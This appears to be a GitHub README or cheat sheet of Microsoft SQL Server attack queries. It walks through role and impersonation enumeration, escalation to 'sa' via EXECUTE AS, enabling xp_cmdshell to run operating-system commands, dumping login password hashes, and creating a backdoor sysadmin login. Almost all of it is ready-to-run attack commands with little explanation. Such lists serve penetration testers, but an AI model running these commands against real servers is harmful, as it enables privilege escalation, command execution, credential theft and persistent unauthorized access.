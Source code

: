### Example Queries

    SELECT name FROM master..sysdatabases;
    sELECT sYSTEM_USER;
    select user_name();
    SELECT IS_SRVROLEMEMBER('public');
    SELECT IS_SRVROLEMEMBER('dbcreator');
    SELECT IS_SRVROLEMEMBER('diskadmin');
    SELECT IS_SRVROLEMEMBER('bulkadmin');
    SELECT IS_SRVROLEMEMBER('setupadmin');
    SELECT IS_SRVROLEMEMBER('processadmin');
    SELECT IS_SRVROLEMEMBER('securityadmin');
    SELECT IS_SRVROLEMEMBER('serveradmin');
    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
        //**dbo can impersonate any user, even if not listed? - try it!
    SELECT STRING_AGG(d.name, ', ') FROM sys.server_principals r INNER JOIN sys.server_role_members m ON r.principal_id = m.role_principal_id INNER JOIN sys.server_principals p ON p.principal_id = m.member_principal_id INNER JOIN sys.databases d ON suser_sname(d.owner_sid) = p.name WHERE is_trustworthy_on = 1;
    sELECT sYSTEM_USER;
    ****EXECUTE AS LOGIN = 'sa';
    sELECT sYSTEM_USER;
    sELECT user_name();
    use msdb; EXECUTE AS USER = 'dbo';
    sELECT user_name();

    EXEC sp_linkedservers;

    //check:  SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell whoami
    EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
    ...


    #Get table names
    SELECT * FROM music.INFORMATION_SCHEMA.TABLES;
    select * from music.dbo.users;

    #List Linked Servers
    EXEC sp_linkedservers
    SELECT * FROM sys.servers;

    #List users
    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

    #Create user with sysadmin privs
    CREATE LOGIN bob WITH PASSWORD = 'abc123!'
    EXEC sp_addsrvrolemember 'bob', 'sysadmin'
